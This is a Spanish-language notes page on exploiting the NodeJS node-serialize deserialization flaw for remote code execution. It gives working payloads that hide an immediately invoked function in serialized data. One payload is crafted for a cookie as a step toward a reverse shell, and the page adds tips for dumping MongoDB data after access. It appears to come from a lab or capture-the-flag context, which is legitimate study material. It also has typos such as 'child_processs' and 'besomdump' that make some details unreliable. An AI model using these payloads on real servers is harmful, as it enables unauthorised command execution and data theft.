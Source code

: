 ```yaml
---
title: "NodeJS Deserialization"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [nodjs, deserialization, MongoDB]
---
```




## Inyectar comando ANTES de que "serialize la data" con "IFFE"

> Recurso: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```js
var y = {
	rce : function(){
	require('child_process').exec('ls /'), function (error, stdout, stderr) { console.log(stdout) })
	}(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

> Esto ocurre gracias a los dos paréntesis , que hay despues de ejecutar el comando ya que antes de hacer la "deserialization" va a ejecutar el comando, esto es conocido como "IFFE" (inyection function)
{: .prompt-info }

## Unserialize

> De lado de un servidor que usa NodeJS , lo que hacen es deserializar la data , de esta menera vamos a a crear una data "serializada" maliciosa , de manera que cuado la "deserialize" ejecute el comando que nosotros queramos aprovechandonos de el "IFFE"
{: .prompt-info }

```js
var serialize = require('node-serialize')
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_processs\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload)
```
### Escenario

> En este caso , gracias a un XXE , hemos conseguido saber donde se situa el server.js , mirando su código nos hemos dado cuenta de que "deserializa" la data de la cookie , por lo tanto vamos a tratar de hacer una cookie serializada maliciosa para obtener una reverse shell
{: .prompt-info }

> Vamos a usar el payload de antes , y vamos a urlEncodearlo , para ponerlo en la cookie , cabe destacar que si da erro , le quitemos los saltos de linea
{: .prompt-info }

```js
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.27', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

## Otro

> Cabe destacar que antes gracias a el archivo "server.js" hemos sabido que por detrás corre mongo , por lo tanto una vez dentro de la máquina , podemos conectarnos usando el comando "mongo"
{: .prompt-info }

> Si no sabemos usar mongo basta con conectarnos con "mongo" y luego poner "mongo dump", esto creara un directorio con todos los archivos de mongo, si con cat , lo reporta un poco feo , puedes usar el comando besomdump
{: .prompt-info }




